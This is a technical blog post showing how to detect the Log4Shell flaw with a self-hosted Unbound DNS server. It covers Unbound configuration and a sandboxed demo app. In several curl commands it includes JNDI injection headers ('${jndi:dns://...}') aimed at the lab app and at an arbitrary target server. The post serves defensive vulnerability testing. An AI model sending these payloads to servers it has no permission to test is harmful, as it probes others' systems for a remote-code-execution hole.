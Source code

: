 ```yaml
---
title: Check Log4Shell vulnerability using Unbound DNS server
excerpt: Check vulnerability without relying on third-party services
date: 2021-12-17
updated: 2022-02-12
tags:
- security
- aws
---
```


> (Edit: 12 Feb 2022) AWS CDK stack is available at [curben/aws-scripts](https://gitlab.com/curben/aws-scripts/-/tree/main/log4shell-stack)

Most of the publications discussing the Log4Shell/[Log4j](https://blogs.apache.org/foundation/entry/apache-log4j-cves) vulnerability ([[1]](https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java), [[2]](https://www.lunasec.io/docs/blog/log4j-zero-day/), [[3]](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/), [[4]](https://arstechnica.com/information-technology/2021/12/minecraft-and-other-apps-face-serious-threat-from-new-code-execution-bug/)) focus on the ability to instruct the JNDI component to load remote code or download payload using [LDAP](https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol). A less known fact is that Log4j also supports DNS protocol by default, at least in versions prior to 2.15.0.

Huntress, a cyber security company, created an easy-to-use tool at [log4shell.huntress.com](https://log4shell.huntress.com/) to detect whether your server is vulnerable using LDAP. Despite the assurance of transparency by the availability of [source code](https://github.com/huntresslabs/log4shell-tester) so you could host it yourself, there's no denying the fact that log4shell.huntress.com is a _third-party_ service; even if anyone could host it, not everyone has the ability to audit the source code. Another third-party service that is mentioned around is [dnslog.cn](http://www.dnslog.cn/) which detects (as the name implies) using DNS protocol.

Since the DNS request made by Log4j is just a simple DNS lookup—similar to a web browser's request—we can run any kind of DNS server: authoritative or recursive. Recursive DNS server is the easier option because it simply forwards request to upstream authoritative server(s). If a server is vulnerable, we'll see its IP address in the DNS server's query logs when we attempt the exploit.

## Setup DNS server

Unbound is a popular DNS server due to its simplicity. dnsmasq is another option, it was the default dns caching in Ubuntu before being replaced by systemd-resolved.

When installing a server (web, DNS, app, etc), Ubuntu usually starts the service immediately after installation. I prefer to properly configure a server before starting it, so I'm going to _mask_ it first to prevent that auto-start.

> Except for checking service status, log and dns query, all commands require `sudo` privilege.

```
systemctl mask unbound
```

Above command may fail in a script, in that case, use `ln -s /dev/null /etc/systemd/system/unbound.service` instead.

Then, we can proceed to install and configure it.

```
apt update
apt install unbound
sudo -e /etc/unbound/unbound.conf.d/custom.conf
```

_`sudo -e` is preferred over `sudo nano` for [security reason](https://teddit.net/r/linux/comments/osah05/ysk_do_not_use_sudo_vimnanoemacs_to_edit_a_file/)._

Paste the following config.

``` yml
# Based on https://www.linuxbabe.com/ubuntu/set-up-unbound-dns-resolver-on-ubuntu-20-04-server
server:
  # the working directory.
  directory: "/etc/unbound"

  # run as the unbound user
  username: unbound

  # uncomment and increase to get more logging
  # verbosity: 2

  # log dns queries
  log-queries: yes

  # listen on all interfaces,
  interface: 0.0.0.0
  # comment out to support IPv6.
  # interface: ::0
  # answer queries from the local network only, change to your private IP
  # interface: 192.168.0.2

  # perform prefetching of almost expired DNS cache entries.
  prefetch: yes

  # respond to all IP
  access-control: 0.0.0.0/0 allow
  # IPv6
  # access-control: ::0/0 allow

  # respond to local network only, change the CIDR according to your network
  # access-control: 192.168.88.0/24 allow

  # localhost only
  # access-control: 127.0.0.1/24 allow

  # hide server info from clients
  hide-identity: yes
  hide-version: yes

remote-control:
  # Disable unbound-control
  control-enable: no

forward-zone:
  # Forward all queries to Quad9, use your favourite DNS
  name: "."
  forward-addr: 9.9.9.9
  forward-addr: 149.112.112.112
```

<kbd>Ctrl</kbd> + <kbd>X</kbd> to quit, <kbd>Y</kbd> to save, <kbd>Enter</kbd> to confirm.

> With the above config, Unbound will respond to _all_ IP, including _public_ IP if exposed to internet.

Since Unbound will listen on all interfaces, it'll interfere with systemd-resolved which listens on 127.0.0.53:53 by default. So, before we start Unbound, systemd-resolved needs to be disabled first.

```
systemctl disable --now systemd-resolved
```

We also need to add the server's hostname to `/etc/hosts`, otherwise `sudo` will take a long time to execute. If you're using AWS EC2, the hostname will be "ip-_a_-_b_-_c_-_d_" where _abcd_ is the private IP.

```
sudo -e /etc/hosts
# append this line
127.0.0.1 ip-a-b-c-d
```

The last step before we start the service is to configure the firewall to allow inbound DNS traffic. I recommend not to allow all IP (0.0.0.0, ::0), otherwise you'll get unwanted traffic. In EC2, that means the attached security group.

After we configure the firewall, we can proceed to unmask and start the DNS server.

```
systemctl unmask unbound
systemctl enable --now unbound
```

To see whether it's working, execute some queries:

```
# localhost
dig example.com @127.0.0.1

# other machine, same subnet
dig example.com @192.168.0.x

# other machine over internet
dig example.com @public-ip
```

Verify Unbound is logging queries,

```
journalctl -xe -u unbound
# Dec 14 01:23:45 ip-a-b-c-d unbound[pid]: [pid:0] info: 127.0.0.1 example.com. A IN
```

We are now ready to test Log4shell vulnerability.

## Demo vulnerable app

> This is an optional step to demonstrate Log4shell.

A demo vulnerable is available as a Docker image at [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app). For best security practice, I recommend:

1. Run it in an isolated network or environment.
2. Clone (the repo) and build it, instead of running the prebuild image.

After building the image and just before you run it, configure the relevant firewall to restrict outbound connection to the Unbound DNS server only. If you prefer to use port 80 for the app server, run `docker run -p 80:8080 --name vulnerable-app vulnerable-app`. Open inbound port 8080 (or port 80) in the firewall.

To test the app server is reachable, send a test request.

```
curl -IL app-server-ip:8080 -H 'X-Api-Version: foo'
```

The app server should respond HTTP 200. The header must be `X-Api-Version` because that's what configured in the log4shell-vulnerable-app.

Once the connection is verified, we can now instruct it to make a DNS request to our Unbound DNS.

```
curl -L app-server-ip:8080 -H 'X-Api-Version: ${jndi:dns://dns-server-ip/evil-request}'
```

In the Unbound's log, the query should be listed.

```
journalctl -xe -u unbound
# Dec 14 01:23:45 ip-a-b-c-d unbound[pid]: [pid:0] info: app-server-ip evil-request. A IN
```

If you want to see the query log in realtime, `journalctl -xe -u unbound -f`. If it's not listed, check the inbound firewall rule applied to the DNS server.

## Is that server vulnerable?

```
curl -L https://target-server-domain -H 'User Agent: ${jndi:dns://dns-server-ip/should-not-show-up-in-the-log}'
```
